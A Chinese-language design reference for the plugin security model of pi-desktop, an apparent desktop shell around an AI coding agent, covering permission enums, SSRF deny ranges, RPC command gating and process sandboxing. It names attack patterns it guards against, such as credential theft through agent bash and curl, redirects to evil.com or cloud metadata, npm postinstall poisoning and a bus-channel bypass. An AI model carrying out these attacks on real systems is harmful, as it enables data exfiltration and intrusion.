# 权限与安全模型

> 本文档是 pi-desktop 的权限与安全集中参考。它把散落在 `DESIGN.md` 3.2（manifest/permissions 字段）、3.5（加载器沙箱与错误隔离）、3.6（双入口 worker↔renderer 隔离）、3.9（外部插件分发、签名、供应链）、4.3（数据与隐私、凭证保护）、4.8（项目信任运行时）、4.12.5（文件编辑器权限）、5.1.5（圆心类型纯度与 gateway 过滤）等处的安全论断收成一条主线，推到"照着能审计、能实现"的程度。读完它，你应该能回答：一个第三方插件在 pi-desktop 里到底能做什么、不能做什么？谁在哪个边界上挡下哪种攻击？圆心为什么不感知权限？项目信任和插件权限为什么是两条独立的轴？
>
> **字数统计口径**：按含代码块与 mermaid 图的全字符数（非空白字符）计，目标 ≥ 30000 字。安全模型的契约表、权限枚举、过滤伪代码、威胁流图都是"照着能审计"的载体，计入字数。
>
> 本文论断对应 `DESIGN.md` 第 3 节（插件系统）、第 5 节（架构总览），并对照激进洋葱分层（`domain/` 圆心、`gateway/` 协议边界、`application/` 用例编排、`shell/` 进程机制）。

## 1 安全模型的全景与设计立场

### 1.1 威胁模型：桌面插件是不可信代码

pi-desktop 是一个 VSCode 式薄壳，core 只提供机制，一切功能是插件。这个立场有一个直接的安全推论：**第三方桌面插件是不可信代码**。它们由任意作者编写、经 npm 或 `.pidesktop` 包分发、加载进用户的桌面进程、能观察用户和 AI agent 的全部对话、能调用底座能力。和浏览器扩展、VSCode 扩展、IDE 插件面对的是同一类威胁——恶意或带漏洞的插件窃取对话内容、外传数据、读写不该碰的文件、执行任意子进程、拖垮宿主进程。

但 pi-desktop 的威胁面有一条特殊的额外轴：它嵌着 pi 底座（一个能读写文件、执行 bash、调 LLM 的 AI coding agent）。插件能经 RPC 让底座做事、能订阅底座吐出的对话与工具调用事件流。这意味着一个恶意图桌插件不仅能直接作恶，还能把底座当成"超级权限放大器"——让 agent 帮它改文件、跑命令、把对话内容外传。所以安全模型必须同时管住两条路：插件自己的直接能力（fs/net/child），以及插件经 RPC/event 间接观测/驱动底座的能力。



**图 1 — 三条攻击面与三道防线**：直接能力靠 permissions+沙箱、间接观测靠 content:sensitive 过滤（覆盖 event 流与 RPC 读响应）、间接驱动靠把高危运行时命令（bash/prompt）从默认 rpc 剥离并要求显式授权。注意"运行时控制 vs 管理"不是安全二分：bash/prompt 虽属"运行时控制"类命令，但能驱动底座执行任意外部副作用（任意命令、改文件、发 HTTP），等价于 RCE，故不随 rpc 默认下发。

### 1.2 设计立场：不分信任级，靠沙箱挡

pi-desktop 对外部插件的安全立场是明确的（`DESIGN.md` 3.9.1）：**外部插件和内置插件走同一套加载器、同一沙箱、同一 permissions 授权**，不引入"可信/不可信"分级、不额外加 webview 强隔离层作为默认。第三方插件不可信的风险靠沙箱挡——`utilityProcess` worker 进程隔离 + 白名单 scoped API + `permissions` 显式声明 + 用户授权。

这个立场不是放任，而是把信任问题从"分级加载路径"转成"统一沙箱 + 显式权限"。它的好处是只有一条加载路径，避免了 VSCode 那种"本地扩展/工作区扩展/Marketplace 扩展"多套加载逻辑的复杂度——复杂度本身就是安全漏洞的温床。代价是沙箱必须足够强：任何插件都过同一道沙箱，沙箱一旦有缺口，所有插件都暴露。所以本文档把沙箱的每一道边界、每一个权限枚举、每一个过滤点都钉到"照着能审计"的粒度。

### 1.3 安全模型与洋葱架构的几何关系

安全模型不是叠在架构之上的一个横切层，而是分布在激进洋葱的各层、按"依赖只向内"的纪律摆放。关键纪律是：**圆心（`domain/`）不感知安全**。权限校验、敏感字段过滤、凭证隔离这些安全动作，都发生在圆心之外的外层——`gateway/`（event-translator 做 content:sensitive 过滤）、`application/`（loader 做 permissions 授权、生命周期隔离）、`shell/`（utilityProcess 做进程级隔离、scoped API 做能力注入）。圆心只描述"插件和 core 交互的中性契约"（PluginContext 接口、槽位契约、中性事件类型），不描述"这个插件有没有权限"。



**图 2 — 安全动作分布在洋葱各层，圆心不感知**：进程隔离在 shell、授权在 application、过滤在 gateway、圆心只留中性契约。

这条纪律的安全含义是：圆心永远不会因为安全策略的演化而改动。今天用 utilityProcess 隔离、明天换 sidecar、后天加新的权限枚举——圆心的 PluginContext 接口、中性事件类型、槽位契约一行不动。安全策略是"会变的细节"，按洋葱纪律推到外层；圆心是"稳定的业务本质"，不掺和。

## 2 permissions 声明体系

### 2.1 权限枚举全集

`permissions` 是 manifest（`plugin.json`）里的一个可选字符串数组字段（`DESIGN.md` 3.2.1/3.2.4）。它声明这个插件需要哪些超出默认的能力。沙箱默认只给 `rpc`/`events`/`bus`/`config`/`i18n`/`http.fetch(白名单域名)`，要更多能力必须在此声明、由用户在管理 UI 授权。取值是枚举字符串，全集如下：

| 权限声明 | 作用域 | 默认 | 谁需要 | 风险等级 |
|---|---|---|---|---|
| `fs:{读写插件 data 目录}` | 插件自己的 `plugins-data/{id}/` | 默认就有，不用声明 | 所有带代码的插件 | 低 |
| `fs:project:read` | 当前项目目录 `<cwd>` 只读 | 不默认，需声明授权 | 文件预览插件 | 中 |
| `fs:project:write` | 当前项目目录 `<cwd>` 读写 | 不默认，需声明授权 | 文件编辑器插件 | 高 |
| `fs:global:read` | `~/.pi` 只读 | 不默认，慎用 | 诊断/高级插件 | 高 |
| `fs:global:write` | `~/.pi` 读写 | 不默认，慎用 | 管理类插件 | 高 |
| `net:域名` | 允许 `http.fetch` 该域名 | 不默认，按域名声明 | 要联网的插件 | 中-高 |
| `child:command` | 执行特定子进程命令 | 不默认，需声明 | 终端/构建类插件 | 高 |
| `content:sensitive` | 在订阅的 SessionEvent、RPC 读响应里看到敏感字段 | 不默认，需声明 | 时间线/分析类插件 | 高 |
| `rpc:bash` | 经 RPC 在底座进程上下文执行任意 bash 命令 | 不默认，需声明 | 终端/构建类插件 | 高 |
| `rpc:prompt` | 经 RPC 驱动底座 agent（`prompt`/`steer`/`follow_up`，触发改文件/跑命令/发 HTTP） | 不默认，需声明 | 命令/自动化类插件 | 高 |

三个要点。第一，`fs:project` 和 `fs:global` 都可细分为 `:read`/`:write`，这是数据隐私需求驱动的细分（`DESIGN.md` 3.2.4 权限细分）——只读预览不需要写权限，就不该给写。第二，`content:sensitive` 是唯一一个不对应"能力通道"、而对应"数据可见性"的权限——它管的是插件订阅的 event 流**以及 RPC 读响应**里能不能看到对话文本和文件内容（见第 4 节，过滤同时覆盖 event 流与 `get_messages`/`get_entries`/`get_last_assistant_text`/`export_html` 等 RPC 响应）。第三，`net:域名` 是按域名逐个声明白名单，不是"给不给网络"，而是"给哪个域名的网络"。

第四个要点（高危运行时命令从默认 rpc 剥离）：`rpc` 是默认能力，但**默认只放行只读/中性的会话控制命令**。`bash`（在底座进程上下文执行任意 bash，等价 RCE）与 `prompt`/`steer`/`follow_up`（驱动 agent 改文件、跑命令、发 HTTP，间接 RCE；`follow_up` 是 DESIGN 1.5.1 中与 `steer` 并列的独立排队命令，功能上把一条用户消息入队、最终驱动 agent 执行，等价于 `prompt` + `streamingBehavior:'followUp'`）这两类高危运行时命令虽属"运行时控制"范畴，但能驱动底座执行任意外部副作用，不能随 `rpc` 默认下发。任何插件要发 `rpc.send({type:"bash",...})` 或 `rpc.send({type:"prompt"|"steer"|"follow_up",...})`，必须先声明 `rpc:bash` / `rpc:prompt` 并经用户授权；rpc-adapter 在派发命令前查命令级授权表，未授权的命令直接拒绝。"`rpc` 默认能力"与"`rpc:bash`/`rpc:prompt` 需声明"的拆分，是承认"运行时控制 vs 管理"在此**不是安全二分**——bash/prompt/steer/follow_up 是能击穿沙箱的高危运行时命令，必须独立授权。统一规则：**所有能驱动 agent 产生外部副作用的排队/发送命令（`prompt`/`steer`/`follow_up`）一律需 `rpc:prompt`**。

默认放行集采用**排除法闭合枚举**（避免"等"留白导致归类不明）：31 个 RPC 命令中，仅以下三类被排除出默认放行、需独立授权——

1. **高危运行时命令 `bash`**：需 `rpc:bash`（等价 RCE，能读 env 凭证、`curl` 绕过 `net:` 白名单）。
2. **高危驱动命令 `prompt`/`steer`/`follow_up`**：需 `rpc:prompt`（驱动 agent 改文件、跑命令、发 HTTP，间接 RCE）。
3. **有写副作用 + 内容输出的 `export_html`**：其 `outputPath` 文件写入不经默认 rpc 放行——目标路径必须落在调用插件已授权的 fs 作用域内（`fs:project:write` / `fs:global:write`，否则拒绝），且落盘 HTML 文件的内容必须按调用插件 `content:sensitive` 权限脱敏（无权限者要么拒绝该命令、要么写出的 HTML 是脱敏版）。详见 4.1.1。

除上述三类外的全部只读/中性会话控制命令（`get_state`/`get_messages`(脱敏后)/`get_entries`(脱敏后)/`get_last_assistant_text`(脱敏后)/`set_model`/`abort`/`compact`/`fork`/`new_session`/`switch_session`/`clone`/`set_thinking_level`/`cycle_model`/`set_auto_retry`，以底座 RPC 协议 `DESIGN.md` 1.5.x 实际命令集为准——新增命令默认不归入默认放行，须先经命令级授权表审视归类）随默认 `rpc` 放行。命令级授权表是闭合枚举而非示例，审计者可据此判断每个命令是否随默认 rpc 下发。

### 2.2 fs 权限的三层收紧

文件系统权限按"插件自己 → 项目 → 全局"三层逐级收紧，又按"读 → 写"在每个层级再分。这个设计的逻辑是**最小权限原则**：插件能完成功能所需的最小文件访问面。

- **第一层（默认）**：`fs:{读写插件 data 目录}`——每个插件默认能读写自己的 `~/.pi/desktop/plugins-data/{id}/config.json` 和 `<cwd>/.pi/desktop/plugins-data/{id}/config.json`（`DESIGN.md` 3.2.4）。这是插件自己的配置目录，隔离在插件 id 下，不碰别的插件的配置、不碰 pi 的 settings、不碰项目源码。这一层不用声明，因为它就是"插件自己的家"。
- **第二层（项目级）**：`fs:project:read` / `fs:project:write`——访问用户当前打开的项目目录。文件预览插件只要 `:read`（预览是只读，`DESIGN.md` 4.5.1），文件编辑器直写路径要 `:write`（`DESIGN.md` 4.12.5）。这一层是"碰用户代码"的权限，风险明显上升，必须显式声明 + 用户授权。
- **第三层（全局级）**：`fs:global:read` / `fs:global:write`——访问 `~/.pi`。这能读到 pi 的全局 settings、auth 凭证目录路径、全局扩展配置。这一层标注"慎用"，只给真正需要管理 pi 全局状态的高级插件，普通插件不该要。



**图 3 — fs 权限三层收紧**：默认自家、项目需声明、全局慎用，每层再分读写。

### 2.3 net 权限的域名白名单

`net:域名` 不是给一个笼统的"联网"权限，而是按域名逐个声明。声明 `"net:api.github.com"` 只允许 `http.fetch` 访问 `api.github.com`，不放开别的域名。这让"恶意插件把对话内容外传到攻击者服务器"这件事必须先声明攻击者域名、被用户看到——`content:sensitive` + `net:` 同时声明时，管理 UI 要重点提示用户"此插件能读你的对话并外发到 X 域名"（`DESIGN.md` 3.2.4）。

`http.fetch(url, opts)` 走的是 core main 代理，不是插件直接 `fetch`（`DESIGN.md` 3.2.4/3.5 第 6 项）。这条代理链路的意义是：域名白名单校验在 core main 做，插件无法绕过——插件的 worker 里根本没有全局 `fetch`，`require`/`fs`/`process` 都不可见，只有 `context.http.fetch` 这一个受控出口。core main 收到插件的 `http.fetch` 请求后，按该插件已授权的域名白名单校验目标 URL，不在白名单内直接拒绝、抛错给插件。

**白名单匹配规则与 SSRF 防护**（之前版本只说"按授权域名校验"，未定义匹配语义与重定向/IP 类 SSRF，留有绕过空间，此处补齐）：

- **host 匹配**：精确匹配授权的 host 字符串；若要支持子域名，须在权限声明里显式写明（如 `net:*.github.com` 才允许 `api.github.com`，而 `net:github.com` 不自动覆盖 `api.github.com`）。`net:api.github.com` 不允许 `raw.githubusercontent.com`——后者是不同域名，需单独声明。
- **scheme/端口**：默认只允许 `https`；`http:` 与非标准端口需在声明里显式标注（如 `net:localhost:8080`）才放行。
- **重定向逐跳再校验**：core main 代理执行 `fetch(url)` 时若发生 3xx 重定向，对**每一跳**的 `Location` 重新做白名单校验；任一跳指向非白名单域名，整次请求中止并抛错给插件。这挡住"先连白名单域名、再 302 到 evil.com/169.254.169.254"的绕过。
- **SSRF 防护**：显式拒绝目标 host 解析到 `127.0.0.0/8`、`10.0.0.0/8`、`172.16.0.0/12`、`192.168.0.0/16`、`169.254.0.0/16`（链路本地/云元数据）、`::1`、`fc00::/7` 等私网/回环/链路本地地址段，防 SSRF 探内网或读云元数据服务。解析在 core main 侧做（DNS 解析后再校验 IP，防 DNS rebinding 的进一步策略见 12.x 缺口）。



**图 4 — net 权限的域名白名单在 core main 强制校验，重定向逐跳再校验、私网/回环 IP 段拦截，插件无法绕过**。

### 2.4 child:command 子进程执行

`child:command` 允许插件执行特定子进程命令。这是风险最高的权限之一——子进程能做任何事，等于绕过整个沙箱。所以它的授权格外谨慎：声明时绑定具体命令（如 `"child:command:npm"`），并可附**可校验的参数约束**。参数约束的语法是可机器校验的三种形式之一：(a) **参数白名单**——`"child:command:npm args=install,lint"` 仅允许这几条子命令；(b) **前缀约束**——`"child:command:npm args-prefix=run"` 允许 `npm run *`；(c) **正则约束**——`"child:command:npm args-regex=^(install|run build|ci)$"`。绑定命令名而不约束参数是不够的——`child:command:npm` 实际允许 `npm exec`/`npm run <script>`/`npm install <pkg>` 触发 `postinstall` 投毒，等价于任意脚本执行；所以 `npm` 这类可触发脚本的命令，其参数约束必须收紧到不触发生命周期脚本的子集，或显式声明 `--ignore-scripts`。用户授权时管理 UI 明确展示"这个插件能跑什么命令、约束什么参数"。

内置的终端插件（4.8）走的是另一条路——它不直接 `spawn`，而是走 RPC 的 `bash` 命令让底座执行（`DESIGN.md` 4.8.2/4.8.4），底座有自己的 bash 执行上下文。所以 `child:command` 主要是给"需要在桌面侧跑构建/格式化/lint"这类插件用的，不是给终端用的。

设计上，`child:command` 执行的子进程也要隔离——core 经 `shell/` 的受控通道 spawn，子进程的 stdout/stderr 走 core 代理回给插件，子进程的 env **采用 allowlist**（只透传插件在 manifest 里声明需要的、非凭证类变量）而非 denylist：denylist 按已知凭证变量名过滤，新命名（如 `MY_API_KEY`、`CUSTOM_TOKEN`）会漏过；allowlist 只透传显式声明的非凭证变量，把"不传"作为默认，凭证不会因命名未知而漏出。这防止插件借子进程读到 OAuth token / API key 这些经 env 注入底座的凭证（`DESIGN.md` 1.3.1 提到 OAuth 凭证、API key 往往走 env）。

### 2.5 content:sensitive 敏感内容可见性

`content:sensitive` 是整个权限体系里最特殊的一条，因为它管的是"数据可见性"而非"能力通道"。底座推给桌面端的事件流（`AgentSessionEvent`）里，`AgentMessage.content[]`（对话文本/图片）、`toolCalls[].args`（工具参数，可能含文件内容）是敏感字段（`DESIGN.md` 1.7.6）。一个订阅了 `message_*` / `tool_execution_*` 事件的插件，如果没有 `content:sensitive` 权限，收到的事件里这些敏感字段被置空——只保留 `role`/`toolName` 等元数据。

**关键：`content:sensitive` 的门控同时覆盖 event 流与 RPC 读响应**。早期版本只描述了 event 流的过滤，但 RPC 默认能力里有 `get_messages`（返回 `AgentMessage[].content` 对话文本）、`get_entries`（返回 `SessionEntry` 含内容）、`get_last_assistant_text`（直接返回 assistant 文本）、`export_html`（导出整段 session）——这些 RPC 响应原样返回敏感内容时，文档曾未说它们也受 `content:sensitive` 门控。若不加门控，插件无需 `content:sensitive`，调 `rpc.send({type:"get_messages"})` 即可拿到全部对话，绕过整个"意图可见"防御。所以第 4 节的脱敏过滤**明确扩展到 RPC 响应路径**：上述返回对话/文件内容的 RPC 命令，对未声明 `content:sensitive` 的插件同样置空敏感字段（或对无权限者直接拒绝该命令）；9.2 的"若要预读消息则需 sensitive"也依此成立——RPC 读路径与 event 流被同一道 `content:sensitive` 门控挡住。

这条权限的安全价值在于：它能挡住"默默偷对话内容"这类隐蔽攻击。一个恶意插件即使声明了 `net:` 外发域名，如果没有 `content:sensitive`，它从 event 流**和 RPC 读响应**都拿不到对话文本，外发的是空字段——攻击失败。要让攻击成立，恶意插件必须同时声明 `content:sensitive` + `net:域名`，而这两个组合在管理 UI 里会被重点提示给用户。这把隐蔽窃取转成了"必须在授权时显式暴露意图"，是权限模型的核心防御之一。content:sensitive 的过滤实现见第 4 节。

### 2.6 默认能力：rpc / events / bus / config / i18n / http.fetch(白名单)

不用声明权限就有的默认能力，需要说清楚边界，避免"默认给太多"：

- **rpc**：发 RPC 命令给底座。但 RPC 默认**只放行只读/中性的会话控制命令**（闭合枚举见 2.1 末尾：除 `bash`/`prompt`/`steer`/`follow_up`/`export_html` 三类排除项外的全部只读/中性会话控制命令）。RPC 命令集里没有"管理 pi 自身"的命令（没有 list/enable/disable extension、没有读 settings、没有 reload config，`DESIGN.md` 1.5.9）。但注意"运行时控制"不等于"安全"——`bash`（在底座进程上下文执行任意 bash，等价 RCE，能读 env 凭证、`curl` 外发绕过 `net:` 白名单）、`prompt`/`steer`/`follow_up`（驱动 agent 改文件、跑命令、发 HTTP，间接 RCE；`follow_up` 与 `steer` 并列，等价 `prompt`+`followUp` 流式行为）这两类高危运行时命令虽属"运行时控制"范畴，**不随 `rpc` 默认下发**：它们被剥到 `rpc:bash` / `rpc:prompt` 两个独立权限里（见 2.1 表）；另有 `export_html` 因带"写文件副作用 + 落盘内容输出"被单独排除（4.1.1），其 `outputPath` 写入受 fs 作用域约束、落盘 HTML 内容受 `content:sensitive` 门控。rpc-adapter 在派发命令前查命令级授权表，未声明授权的 `bash`/`prompt`/`steer`/`follow_up` 调用直接拒绝、`export_html` 的 fs 作用域/`content:sensitive` 不满足直接拒绝。所以"给 rpc"既不等于"给底座管理权"，也不等于"给 RCE"——管理能力由 RPC 命令集边界挡在外面，高危运行时命令由命令级授权表挡在默认之外。
- **events**：订阅底座 event 流。但收到的 event 已经过 content:sensitive 过滤（第 4 节），没声明权限的插件收到的是脱敏事件。所以"给 events"不等于"给对话内容"。
- **bus**：插件间事件总线。fire-and-forget、无缓冲、无历史回放，插件之间松耦合通信，不碰底座。**注意 bus 是已知的 `content:sensitive` 旁路通道，当前仅靠规范约束、不受第 4 节门控保护**：bus payload 不做 `content:sensitive` 脱敏——一个持 `content:sensitive` 的插件若把对话内容原样 `publish` 到某个 topic，无 `content:sensitive` 的同壳插件 `subscribe` 该 topic 即可拿到敏感内容，等价于绕过"未声明 `content:sensitive` 就拿不到对话内容"这条核心门控，且不需要任何 `net:` 组合就能在壳内扩散。这使第 4 节对 event 流/RPC 读路径的强保证在 bus 路径上被打折。受影响场景：同壳多插件协同（一个授权读、一个未授权消费）。当前防御仅靠"插件作者规范约束持敏感内容的插件不应把敏感字段原样 publish"，**这被视为已知的强保证缺口而非可接受的低危**——见 12.7 演进项：在默认实现里对 bus payload 做与 event 流一致的按订阅者 `content:sensitive` 脱敏（publish 侧或 subscribe 侧任一），或对跨权限级 bus 转发做拦截。审计者不应误以为 bus 路径也受第 4 节门控保护。
- **config**：读写插件自己的 data 目录（第一层 fs 默认能力），不碰 pi settings、不碰别的插件配置。
- **i18n**：取文案、locale 格式化，纯读取。
- **http.fetch(白名单域名)**：注意这个"默认"是带括号的——`http.fetch` 接口默认就在 PluginContext 里，但每次调用都要校验域名白名单；没声明任何 `net:` 权限的插件，白名单是空的，任何 `http.fetch` 都会被拒。所以"给 http.fetch 接口"不等于"给网络"。



**图 5 — 默认能力是"受限的可用"，扩展能力才需要声明授权；高危运行时命令 bash/prompt 已从默认 rpc 剥离**。

### 2.7 声明 + 授权 + 撤销的三段生命周期

permissions 不是"声明了就有"，而是走三段：

- **声明（manifest）**：插件作者在 `plugin.json` 的 `permissions` 数组里写清楚要什么。这是静态的、可被校验、可被审核。一个不带代码模块的纯声明式插件不需要 permissions（它没有能力调用点）。
- **授权（用户）**：安装时（外部插件，3.9.4）或启用时（内置/本地插件），管理 UI 把 `permissions` 列给用户看，用户决定授不授权。未声明未授权的能力调用会抛错。授权写入授权表，core 据此决定往 PluginContext 注入哪些能力。
- **撤销（用户随时）**：用户后续在管理 UI 可以撤销某个权限或整个禁用插件（3.9.6）。撤销单权限时，加载器更新该插件的授权表、把对应能力从 PluginContext 注入里摘掉；已 activate 的插件下次调该能力时抛错"权限已撤销"，插件要能优雅降级不能崩（3.5 第 5 项错误隔离兜底）。

这套机制把权限做成**动态的、用户随时可改**，不是装了就永久。管理 UI 是权限的单一管理面。这呼应"组装和调用分开"——声明归作者（组装）、授权归用户（执行）、撤销归用户（收回）。

## 3 沙箱：进程级隔离与 scoped API

### 3.1 worker utilityProcess 进程级隔离

带 `main` 代码模块的插件，其逻辑跑在 Electron 的 `utilityProcess`（`DESIGN.md` 3.5 第 6 项 / 3.6）。这是 Node 子进程，提供进程级隔离——插件抛未捕获异常只崩这个 worker、core 主进程捕获崩溃事件禁用该插件、插件资源占用可按插件计量。这是沙箱的第一道也是最强的一道边界：进程边界。

进程隔离的含义是物理性的。插件的 worker 是独立的 V8 堆、独立的事件循环、独立的内存空间。它不能直接访问 core main 进程的内存、不能访问 renderer 的 React 状态、不能访问别的插件的 worker 堆。一个插件 worker 崩溃（OOM、死循环、未捕获异常）只影响它自己——core 主进程捕获 `onCrash` 回调、把该插件标记为错误禁用、通知 UI、其他插件照常运行。这就是"错误隔离"（3.5 第 5 项）的物质基础：进程边界让"一个插件崩不连累整壳"成立。



**图 6 — utilityProcess 进程级隔离：每个插件独立 worker，崩溃只禁用自己**。

### 3.2 白名单 scoped API：能力的唯一出口

进程隔离还不够——如果 worker 里能 `require('fs')` / `require('child_process')` / 全局 `fetch`，进程边界形同虚设。所以沙箱的第二道是**白名单 scoped API**：core 给插件的 `PluginContext`（`DESIGN.md` 3.2.4）只暴露受控接口，`require`/`fs`/`process`/全局 `fetch` 都不可见。插件只能通过 `context.rpc` / `context.http` / `context.events` / `context.config` / `context.bus` / `context.i18n` / `context.emitToRenderer` / `context.register` 这些接口和外界交互。

```typescript
interface PluginContext {
  plugin: { id: string; version: string; rootDir: string };
  rpc: { /* RPC 命令便捷方法 + send 逃生舱 */ };
  http: { fetch(url: string, opts?: RequestInit): Promise<Response> };  // 受限网络
  events: { on(listener: (event: SessionEvent) => void): () => void }; // 已脱敏
  bus: { publish(topic: string, payload: unknown): void;
         subscribe(topic: string, listener: (payload: unknown) => void): () => void; };
  config: { get/set/all };  // 仅插件自家 data 目录
  i18n: { t, locale, formatDate, formatNumber };
  emitToRenderer(channel: string, data: unknown): void;
  register(contribution: DynamicContribution): void;
  onDeactivate(fn: () => void): void;
}
```

这个接口就是 worker 侧插件的全部能力边界。注意几个细节：`http.fetch` 不是全局 `fetch`，是 core 代理（带域名白名单）；`events.on` 收的是已脱敏的中性 `SessionEvent`（不是底座原始 `AgentSessionEvent`，敏感字段已在 gateway 过滤）；`config` 只读写插件自家目录；`rpc.send` 是逃生舱用 `unknown` 签名（不绑底座协议类型，圆心保持纯）。`require`/`fs`/`process` 在 worker 启动时就被收走——worker 经 `utilityProcess.fork(modulePath)` 起，core 注入的是 scoped context 而非裸 Node 环境。

### 3.3 renderer 侧：portal + ErrorBoundary + 受限加载器

UI 模块跑在 renderer（有 React 的环境），不能用进程隔离（React 组件不可跨堆序列化，3.6）。renderer 侧的沙箱弱于独立进程，这是诚实承认的（`DESIGN.md` 3.6）：UI 代码和宿主共享 renderer 堆。所以 renderer 侧用的是三道软隔离：

